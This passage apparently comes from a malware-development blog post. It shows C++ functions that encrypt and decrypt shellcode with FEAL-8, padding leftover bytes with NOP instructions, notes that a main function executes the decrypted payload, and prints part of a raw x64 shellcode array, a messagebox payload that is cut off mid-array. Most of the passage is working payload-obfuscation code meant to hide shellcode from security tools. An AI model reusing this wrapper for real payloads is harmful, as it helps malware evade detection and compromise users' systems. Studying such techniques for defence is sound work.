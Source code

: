 And shellcode encryption and decryption logic:    

```cpp
// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_encrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_decrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

First function is responsible for encrypting the provided shellcode (`meow-meow` messagebox in our case) using `FEAL-8` encryption. It processes the shellcode in `64-bit` blocks (`8-bytes`), and if there are any remaining bytes that do not fit into a full block, it pads them with `0x90` (`NOP`) before encrypting.     

Finally, `main` function demonstrates encrypting, decrypting, and executing shellcode using `FEAL-8`.    

As usually I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
```